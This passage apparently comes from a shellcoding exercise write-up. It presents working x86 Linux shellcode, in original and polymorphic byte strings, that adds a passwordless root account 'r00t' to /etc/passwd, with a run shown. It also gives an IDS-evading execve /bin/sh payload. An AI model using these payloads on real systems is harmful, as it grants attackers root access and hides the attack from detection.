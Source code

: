 ```nasm
    int     0x80

    shr     eax, 1      	; write return number of bytes written (0xC) 
                        	; 0xC / 2 => 0x6 close syscall number
    int     0x80

    xchg    al, dh		; EAX set to 0
    inc     eax			; exit syscall number
    int     0x80
```

Original shellcode :  
"\x6a\x05\x58\x31\xc9\x51***\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63***\x89\xe3\x66\xb9\x01\x04***\xcd\x80***\x89\xc3\x6a\x04\x58\x31\xd2\x52***\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74***\x89\xe1\x6a\x0c\x5a\xcd\x80\x6a\x06\x58***\xcd\x80***\x6a\x01\x58***\xcd\x80***" 

The new shellcode :  
"\x31\xdb\xf7\xe3\xb0\x05\x53***\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63***\x87\xd9\x8d\x1c\x24\xb5\x04\x41***\xcd\x80***\x93\x89\xd0\x50\x86\xc5***\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74***\x8d\x0c\x24\xb2\x0c\xcd\x80\xd1\xe8***\xcd\x80***\x86\xc6\x40***\xcd\x80***"  

We retrieve only the two strings and the three interrupt 80 instructions.

```plaintext
root@kali:~# gcc -fno-stack-protector -z execstack shellcode.c -o add-root-poly
root@kali:~# ./add-root-poly
Payload Length:  69

root@kali:~# tail -3 /etc/passwd
ftpuser:x:1000:1000::/dev/null:/etc
statd:x:137:65534::/var/lib/nfs:/usr/sbin/nologin
r00t::0:0:::root@kali:~#
```

## execve /bin/sh anti-ids

The original code is as follow (gdb dump) :  
**Size : 40 bytes**
```nasm
=> 0x00404040 <+0>:	cdq    			; set EDX to 0
   0x00404041 <+1>:	push   edx		; 
   0x00404042 <+2>:	pop    eax		; set EAX to 0
   0x00404043 <+3>:	push   edx		; push string terminator
   0x00404044 <+4>:	mov    edi,0x343997b7	; 
   0x00404049 <+9>:	add    edi,edi		; EDI => 0x68732f6e
   0x0040404b <+11>:	push   edi		; push hs/n
   0x0040404c <+12>:	mov    edi,0x34b11797	;
   0x00404051 <+17>:	add    edi,edi		; EDI => 0x69622f2f
   0x00404053 <+19>:	inc    edi		; EDI += 1
   0x00404054 <+20>:	push   edi		; push ib//
   0x00404055 <+21>:	mov    ebx,esp		; EBX pointer to //bin/sh

   0x00404057 <+23>:	push   edx		; push 0
   0x00404058 <+24>:	push   ebx		; push //bin/sh address
   0x00404059 <+25>:	mov    ecx,esp		; ECX point to stack (["//bin/sh"])
   0x0040405b <+27>:	mov    al,0x63		;
   0x0040405d <+29>:	sub    al,0x58		; AL => 0xb execve syscall number 
   0x0040405f <+31>:	sub    edi,0x6961ae62	; EDI set to 0x80cd
   0x00404065 <+37>:	push   edi		; push int 0x80 opcode
   0x00404066 <+38>:	call   esp		; go to int 0x80 

```
